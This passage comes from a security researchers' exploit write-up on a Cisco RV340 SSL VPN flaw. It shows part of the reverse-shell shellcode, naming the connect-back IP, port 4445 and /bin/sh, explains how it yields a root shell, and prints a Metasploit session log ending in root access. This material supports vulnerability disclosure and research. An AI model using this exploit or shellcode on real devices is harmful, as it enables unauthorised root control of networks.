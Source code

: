 ```nasm
.ascii "\x02\xff"       // AF_INET 0xff will be NULLed
.ascii "\x11\x5d"       // port number 4445
.byte 5,5,5,1           // IP Address
binsh:
.ascii "/bin/shX"
```

When the shellcode executes it will create a TCP socket listening at `5.5.5.1:4445` and duplicate `stdin, stout, stderr` to that socket file descriptor. After receiving a connection, the `execve()` syscall is called, which spawns `/bin/sh` (`busybox sh`) and we can enjoy our beautiful `root` shell!

## Exploit Log

```
msf6 exploit(linux/misc/cisco_rv340_sslvpn) > check
[*] 5.55.55.62:8443 - The service is running, but could not be validated.
msf6 exploit(linux/misc/cisco_rv340_sslvpn) > exploit

[*] Started reverse TCP handler on 5.55.55.1:4445
[*] 5.55.55.62:8443 - 5.55.55.62:8443 - Pwning Cisco RV340 Firmware Version <= 1.0.03.24
[*] Command shell session 30 opened (5.55.55.1:4445 -> 5.55.55.62:41976 ) at 2022-02-10 20:12:18 +0000

id
uid=0(root) gid=0(root)
uname -a
Linux router138486 4.1.8 #2 SMP Fri Oct 22 09:50:26 IST 2021 armv7l GNU/Linux

```

Have fun and PWN!

~ [Flashback Team](https://twitter.com/FlashbackPwn)

